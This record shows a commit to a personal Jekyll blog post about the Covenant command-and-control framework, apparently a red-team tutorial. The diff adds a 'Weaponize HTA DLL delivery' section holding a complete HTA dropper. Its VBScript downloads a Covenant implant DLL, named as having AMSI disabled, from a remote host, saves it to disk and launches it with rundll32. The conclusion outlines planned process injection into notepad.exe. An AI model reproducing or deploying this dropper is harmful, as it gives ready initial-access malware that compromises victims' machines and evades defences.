

Before and after one commit to Fil88/Fil88.github.io, a Jekyll site: the page built from _posts/2021-07-01-Entering-the-Covenant-C2C.md, in a window 1280 px wide and 1400 px high, scrolled down 16850 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2021-07-01-Entering-the-Covenant-C2C.md

````diff
--- a/_posts/2021-07-01-Entering-the-Covenant-C2C.md
+++ b/_posts/2021-07-01-Entering-the-Covenant-C2C.md
@@ -626,9 +626,92 @@ If we press the Enable Content button, the macro will execute and the message bo
   <img src="/assets/posts/2021-07-01-Entering-the-Covenant-C2C/cov13.JPG">
 </p>
 
+
+
+### 4) Weaponize HTA DLL delivery
+
+First of all we need to craft our HTA (first stage) file that will deliver our Grunt payload (Second stage. An example follow below:
+
+```html
+
+<!DOCTYPE html>
+<html>
+<head>
+<HTA:APPLICATION icon="#" WINDOWSTATE="minimize" SHOWINTASKBAR="no" SYSMENU="no"  CAPTION="no" />
+<script type="text/vbscript">
+
+' ===================================
+' Download Clause
+' Tested with binaries - works!
+HTTPDownload "http://192.168.152.100:1234/covenant-DLL-noAmsi.dll", "C:\tmp\"
+
+Sub HTTPDownload( myURL, myPath )
+
+    ' Standard housekeeping
+    Dim i, objFile, objFSO, objHTTP, strFile, strMsg
+    Const ForReading = 1, ForWriting = 2, ForAppending = 8
+
+    ' Create a File System Object
+    Set objFSO = CreateObject( "Scripting.FileSystemObject" )
+
+    ' Check if the specified target file or folder exists,
+    ' and build the fully qualified path of the target file
+    If objFSO.FolderExists( myPath ) Then
+        strFile = objFSO.BuildPath( myPath, Mid( myURL, InStrRev( myURL, "/" ) + 1 ) )
+    ElseIf objFSO.FolderExists( Left( myPath, InStrRev( myPath, "\" ) - 1 ) ) Then
+        strFile = myPath
+    Else
+        WScript.Echo "ERROR: Target folder not found."
+        Exit Sub
+    End If
+
+    ' Create or open the target file
+    Set objFile = objFSO.OpenTextFile( strFile, ForWriting, True )
+
+    ' Create an HTTP object
+    Set objHTTP = CreateObject( "WinHttp.WinHttpRequest.5.1" )
+
+    ' Download the specified URL
+    objHTTP.Open "GET", myURL, False
+    objHTTP.Send
+
+    ' Write the downloaded byte stream to the target file
+    For i = 1 To LenB( objHTTP.ResponseBody )
+        objFile.Write Chr( AscB( MidB( objHTTP.ResponseBody, i, 1 ) ) )
+    Next
+
+    ' Close the target file
+    objFile.Close( )
+End Sub
+
+
+' =============================
+' Execute clause
+
+Dim sh
+Set sh = CreateObject("Wscript.Shell")
+Call sh.Run("rundll32 covenant-DLL-noAmsi.dll,MonkEntry")
+Set sh = Nothing
+</script>
+</head>
+<body>
+</body>
+</html>
+
+```
+
+
+
+
+
+
+
+
+
+
 ## Conclusion
 
-Future implementation will attemp something along these lines below:
+Future implementation will attemp more complicated scenarios along the lines presented below:
 
 1) Generate an `HTA` dropper that will perform the following
 
@@ -638,4 +721,4 @@ Future implementation will attemp something along these lines below:
 
 4) The `DLL` will perform process injection against notepad.exe
 
-5) Notepad will spawn a Covenant's Grunt
+5) Notepad will spawn a Covenant's Grunt.
````
